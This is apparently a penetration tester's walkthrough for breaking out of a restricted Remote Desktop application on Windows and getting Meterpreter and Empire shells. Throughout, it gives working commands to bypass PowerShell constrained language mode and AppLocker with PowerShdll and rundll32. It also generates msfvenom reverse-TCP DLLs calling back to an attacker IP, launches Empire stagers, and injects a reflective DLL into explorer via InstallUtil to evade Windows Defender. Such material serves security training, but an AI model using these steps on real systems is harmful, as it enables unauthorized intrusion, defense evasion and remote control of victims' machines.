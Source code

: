 # From RDS app to Empire shell

This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.  
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**

* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**

powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll  
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad

[https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/](https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/)  
[https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)

From the notepad app  
Click Help -&gt; View help -&gt; triggers Internet Explorer  
Right click on anything -&gt; save target as -&gt; save as lol.ps1 on the Desktop  
Press view downloads in IE, press the dropdown on the file, open with -&gt; notepad. then just write powershell.exe in the file and save again  
Now right click -&gt; "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

#### Bypssing PoSh constrained mode

Download PowerShdll from [https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll)  
Host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`  
Navigate to the following URL in IE where [http://10.7.253.10/PowerShdll.dll](http://10.7.253.10/PowerShdll.dll)  
Save as -&gt; PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. But navigating to folders might also be restricted, so in certain ocassions you might need to save to Desktop.

I'm not sure exactly how to check for DLL rules in an Applocked environment yet.

Now navigate to the desktop in the other powershell prompt  
Use rundll32 to execute the dll  
`rundll32 .\PowerShdll.dll,main -w`  
A new interactive powershell prompt should pop up  
Verify that constrained language mode has been bypassed with  
`$ExecutionContext.SessionState.LanguageMode`  
It should say FullLanguage

![](/assets/powershdll.png)

#### Getting meterpreter shell

Generate a dll payload

```
msfvenom windows/x64/meterpreter/reverse_tcp lhost=10.7.253.10 lport=8081 -f dll -o msf.dll
```

Set up listener in msf with same payload, host and port.

```
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Download the msf.dll using the IE "save as" trick from before.  
![](/assets/dll.png)

For some reason I am not sure why the dll payload is not eaten by Windows Defender, not on disk and not when executed. It could possibly be the x64 signature of the payload is not yet recgonized as malware by Defender.

Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\PowerShdll.dll,Control_RunDLL`

Shell should now spawn in msf.

![](/assets/msfshell.png)

#### Empire without powershell.exe

This assumes you have a metasploit Session established.  
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.

```
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:

```
load powershell
powershell_shell
```

Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire. Congratulations!  
![](/assets/empireagent.png)

## More advanced technique

#### Bypassing powershell constrained mode and applocker

This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.  
[https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file

```
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```

4 Copypaste the content of dll.txt into a new variable in Invoke-ReflectivePEInjection.ps1

```
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```

5 Base64 encode the entire script using [https://www.base64encode.org/](https://www.base64encode.org/)  
Open the Bypass project in VS and copypaste the base64 into the encoded variable.  
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```

### Useful links

* [https://github.com/Ben0xA/AwesomerShell](https://github.com/Ben0xA/AwesomerShell)
* [https://www.youtube.com/watch?v=czJrXiLs0wM](https://www.youtube.com/watch?v=czJrXiLs0wM)
* [https://adsecurity.org/?p=2921](https://adsecurity.org/?p=2921)
* [https://bneg.io/2017/07/26/empire-without-powershell-exe/](https://bneg.io/2017/07/26/empire-without-powershell-exe/)
* [https://artofpwn.com/offensive-and-defensive-powershell-ii.html](https://artofpwn.com/offensive-and-defensive-powershell-ii.html)
* [https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)
* [https://github.com/caseysmithrc/DeviceGuardBypasses](https://github.com/caseysmithrc/DeviceGuardBypasses)
* [https://github.com/Joshua1909/AllTheThings](https://github.com/Joshua1909/AllTheThings)
* [https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)



